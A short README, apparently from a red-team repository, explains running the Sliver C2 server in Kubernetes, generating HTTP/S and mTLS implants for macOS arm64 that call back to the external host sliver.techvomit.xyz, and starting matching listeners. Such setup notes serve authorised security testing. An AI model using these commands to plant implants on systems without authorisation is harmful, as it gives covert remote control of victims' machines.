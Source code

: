 # Sliver C2

Sliver is a general-purpose cross-platform implant framework that supports C2
over Mutual-TLS (mTLS), HTTP(S), and DNS.

## Using Sliver C2 in Kubernetes

1. **Start the Sliver Server:**

   ```bash
   kubectl exec -it deployments/sliver -- /opt/sliver-server
   ```

1. **Create an Implant:**

   HTTP/S implant for macOS arm64 device:

   ```bash
   generate --http sliver.techvomit.xyz --save /home/sliver/.sliver/implants/sliver-init --skip-symbols --os macos --arch arm64
   ```

   mTLS implant for macOS arm64 device:

   ```bash
   generate --mtls sliver.techvomit.xyz --save /home/sliver/.sliver/implants/sliver-mtls --skip-symbols --os macos --arch arm64
   ```

1. **Create a Listener:**

   HTTP listener:

   ```bash
   http
   ```

   HTTPS listener:

   ```bash
   https
   ```

   mTLS listener:

   ```bash
   mtls
   ```
